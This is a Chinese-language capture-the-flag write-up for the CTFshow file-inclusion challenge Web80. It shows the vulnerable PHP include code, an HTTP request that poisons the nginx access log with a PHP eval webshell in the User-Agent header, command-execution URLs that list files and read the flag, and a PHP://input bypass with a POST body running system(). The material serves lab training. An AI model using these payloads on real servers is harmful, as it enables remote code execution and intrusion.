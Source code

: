 # CTFshow 文件包含

**题目范围：Web78 - Web88 | Web116 - Web117**





## Web 80

代码如下：

```php
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
} else {
    highlight_file(__FILE__);
}
?>
```

本关过滤了php和data应该是不允许使用伪协议，但是可以正常包含，采用包含日志文件的方式。

日志文件中包含了 url以及ua信息等，这里ua最容易控制，抓包改ua，写入一句话即可。如下第三行

```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

可以直接命令执行即可也可以用webshell后门工具连接（蚁剑连接不上是怎么回事）

```
?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();
?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();
```

寻找PHPinfo信息前面的那一段信息即可找到



**另一种方法：**

对于php 和data 已经被过滤掉了，所以都不能用，但是用POST 的方法，还能用，为了不被过滤，php://input 改成PHP://input

GET方法改为POST方法最后添加一行，内容是需要包含的php代码。执行为：

/?file=PHP://input HTTP/1.1

POST数据部分：<?php system('ls *.php');?>



